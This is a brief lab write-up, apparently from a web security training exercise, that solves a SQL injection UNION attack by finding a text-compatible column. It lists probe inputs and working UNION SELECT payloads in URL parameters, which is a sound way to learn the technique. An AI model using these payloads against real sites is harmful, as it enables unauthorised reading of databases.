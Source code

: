 # Lab: SQL injection UNION attack, finding a column containing text

Target : dentify a column that is compatible with string data.
         Make the database retrieve the string: 'jhpQzd'

Analysis :

- `/product?productId=4'"` -> 400 bad request
- `/filter?category=Accessories'"` -> 500 internal error

- number of columns is 3
- `Accessories'+UNION+SELECT+NULL,+'A',+NULL--` -> The second column could be used To retrive string values from the database
- so to solve the we simply could `/filter?category=Accessories'+UNION+SELECT+NULL,+'jhpQzd',+NULL--`
